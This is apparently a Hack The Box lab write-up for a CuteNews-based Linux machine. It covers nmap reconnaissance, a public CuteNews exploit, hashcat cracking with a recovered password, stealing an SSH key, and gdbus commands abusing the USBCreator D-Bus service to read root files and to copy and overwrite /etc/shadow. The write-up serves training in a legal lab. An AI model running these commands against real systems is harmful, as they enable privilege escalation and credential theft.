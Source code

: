 # Box 



![image-20210124120821454](img/image-20210124120821454.png)

https://www.hackthebox.eu/home/machines/profile/275

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)
* [Bonus](#bonus)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.206 10.10.10.206
```

![image-20210124131826442](img/image-20210124131826442.png)

We have a webpage. Let's take a look.

![image-20210124131856899](img/image-20210124131856899.png)

At the bottom of the page we can find 

![image-20210124131922870](img/image-20210124131922870.png)

Searching for "CuteNews" brings us to a lot of differents exploit, one that I find using searchsploit is this one : https://www.exploit-db.com/exploits/48800

## Exploitation

By using this software we have now a shell : 

![image-20210124132340137](img/image-20210124132340137.png)

We also got several hashes that I am gonna try to decrypt : 

![image-20210124141337723](img/image-20210124141337723.png)

Running hashcat : 

```bash
hashcat -m 1400 hash.txt rockyou.txt
```

We got one successful password. 

```bash
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```



We can now try to elevate to the user.

## Post-Exploitation

### User 1



After a while on the box, I find a file in `/var/www/html/CuteNews/cdata/users` which seems to contains multiple base64 encoded strings  

![image-20210124135949548](img/image-20210124135949548.png)

By decoding these string I can see the hash that we cracked earlier. 

![image-20210124141818570](img/image-20210124141818570.png)

Let's try to login as paul : 

![image-20210124141100349](img/image-20210124141100349.png)

### User 2

After one or two hours trying to find a file that seems suspicious I checked the .ssh keys that are by default in the folder :

![image-20210124162512508](img/image-20210124162512508.png)

And that was that simple. The private key is probably the nadav one so we just have to get it.

![image-20210124162716519](img/image-20210124162716519.png)

to root.

### Root

We can see there is a .viminfo file where we can see the history, there is one particular interesting file  : `/etc/dbus-1/system.d/com.ubuntu.USBCreator.conf`

![image-20210308135701236](img/image-20210308135701236.png)



After a while i found this privesc using USBCreator : 

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/

We can just copy/paste the command to get our flag :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/flag.txt true
```

![image-20210308135939023](img/image-20210308135939023.png)

![image-20210308140025046](img/image-20210308140025046.png)

Rooted.



## Bonus

If you want to get a root shell you can use the previous command to copy the `/etc/shadow` file :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /etc/shadow /tmp/shadow true
```

then use your own custom password and replace the system shadow file with your own :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/shadow /etc/shadow true
```

![image-20210308140931645](img/image-20210308140931645.png)